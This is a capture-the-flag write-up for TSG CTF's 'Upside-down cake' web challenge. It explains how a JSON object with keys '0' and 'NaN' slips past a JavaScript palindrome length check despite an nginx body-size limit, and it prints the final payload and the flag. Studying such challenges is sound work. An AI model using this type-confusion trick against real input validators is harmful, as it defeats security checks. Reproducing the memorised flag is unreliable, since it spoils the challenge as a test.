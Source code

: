 # Upside-down cake
> I checked 413 times to see if the settings are correct.

## About the Challenge
We were given a source code (You can download the source code [here](upside-down_cake.tar.gz)) where we can check if our input is "palindrome" or not


[Image extracted text: love long palindromel
Send me a long palindrome to
flag :
aaaa
Send palindrome
too short
get]


To get the flag we need to input the "palindrome" string which has 1000 characters

```javascript
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

At first, I thought we needed to input `"a"*1000"`. Isn't this challenge too easy?" Not at all. If you check the nginx configuration, you can see that there's a limitation where we can only input 100 characters in the HTTP Body.

```
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```

## How to Solve?
First, we have to bypass the character length check

```javascript
if (string.length < 1000) {
	return 'too short';
}
```

How to do that? Instead of input a string nor an array, we need to input JSON inside the palindrome value, for example

```json
{
    "palindrome": {
        "test":"test"
    }
}
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
6
In
=
Pretty
Raw
Hex
Render
In
=
POST
HTTP/1.1
HTTP/1.1
200
OK
Host:
34.84.176.251:12349
Server:
nginx/1.25.3
3
Content-Length:
30
3
Date:
Sun ,
05
Nov
2023
08: 18: 53
GMT
User-Agent:
Mozilla/5 .0
(Windows
NT
10.0;
Win64;
X64)
Content-Type:
text/plain;charset=UTF-8
AppleWebKit/537.36
(KHTML,
like
Gecko)
Chrome/118.0.5993.90
5 Content-Length:
14
Safari/537.36
6
Connection:
keep-alive
5
Content-Type:
application/json
6
Accept:
x/*
not
palindrome
palindrome" : {
test":"test"]


We have bypassed the length check, and now we need to input a "palindrome" string. To do this, i wrote a simple code to debug the `validatePalindrome()` function in my computer

```javascript
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}
 
	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		console.log("Original: " + original)
		console.log("Reverse: " + reverse)

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return 1;
}

const test = {"test":"test"};

console.log(validatePalindrome(test));
```

And if you run the code, the output will be

```
Original: undefined
Reverse: undefined
not palindrome
```

Why is it `undefined`? That's because we input JSON instead of an array or a string, for example:

```javascript
test1 = "test"
test2 = ["test"]
test3 = {"test":"test"}

console.log(test1[0]) //Output: t
console.log(test2[0]) //Output: test
console.log(test3[0]) //Output: undefined
```

To make the code output the string you input instead of `undefined`, you can provide input as `{"0":"a"}`. Wait, how? Here's another example:

```javascript
const test = {"0":"a"};
console.log(test[0])
```

The output will be `a` because we're accessing the property with the key `0` in the object `test` using bracket notation, and that property contains the value `a`.

If we recode the our code again, the output will be:

```
Original: a
Reverse: undefined
not palindrome
```

If you recheck the `reverse` part

```javascript
const reverse = string[string.length - i - 1];
```

The output will be `undefined`, why? That's because the value of `string.length` is `undefined`

```javascript
console.log(undefined - 1) // NaN
```

Then provide the second key-value pair, `"NaN":"a"` (the explanation is the same as above). And the final payload will be

```json
{"palindrome":{"0":"a","NaN":"a"}}
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
0
In
=
Pretty
Raw
Hex
Render
In
=
PosT
HTTP/1.1
HTTP/1.1
200
OK
2
Host:
34.84.176.251:12349
2
Server:
nginx/1.25.3
3 Content-Length:
34
3
Date:
Sat,
04
Nov
2023
10:17:25
GMT
User-Agent:
Mozilla/5 .0
(Windows
NT
10.0;
Win64;
x64)
Content-Type:
text/plain;charset-UTF-8
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome/118.0.5993.90
5 Content-Length:
78
Safari/537
36
6
Connection:
close
5 Content-Type:
application/json
6
Accept:
x*
I
Zove you !
Flag
is
Origin:
http://34.84.176.251:12349
TSGCTF{pilchards_are_gazing_stars_which_are_very_
away}
Referer:
http://34.84.176.251:12349/
Accept-Encoding
gzip,
deflate
br
10 Accept-Language:
en-US, en;q=0.9
11
Connection:
close
12
13
palindrome" : {
0"
"NaN"
far_]


```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```